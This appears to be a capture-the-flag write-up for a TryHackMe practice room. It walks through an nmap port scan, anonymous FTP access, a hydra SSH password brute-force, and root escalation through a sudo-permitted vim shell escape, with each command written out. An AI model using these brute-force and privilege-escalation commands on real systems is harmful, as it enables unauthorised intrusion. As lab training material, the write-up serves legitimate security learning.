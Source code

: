 # THM-easyctf

https://tryhackme.com/room/easyctf

**Use nmap to check for open ports: sudo nmap -Pn -p- -sS 10.10.38.83**

  PORT     STATE SERVICE
  
  21/tcp   open  ftp
  
  80/tcp   open  http
  
  2222/tcp open  EtherNetIP-1


**Log on to the ftp server as anonymous: ftp 10.10.38.83**

cd pub directory and get ForMitch.txt

cat file:

	 ℹ️ Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess! 

🔑 mitch could be a potential user name

**Bruteforce the ssh server: hydra -l mitch -P /usr/share/dirb/wordlists/others/best110.txt  ssh://10.10.38.83:2222** 


	 *2222][ssh] host: 10.10.38.83   login: mitch   password: ******

**Login to the ssh server: ssh mitch@10.10.38.83 -p 2222** 

🏴‍☠️ cat user.txt to get the first flag

**sudo -l:**

	ℹ️ (root) NOPASSWD: /usr/bin/vim 

**Head to https://gtfobins.github.io/gtfobins/vim/ to find shell access:**

	vim -c ':!/bin/sh'

**sudo vim -c ':!/bin/sh'**

root access is gained

cd to root directory 

🏴‍☠️ cat root.txt for the final flag
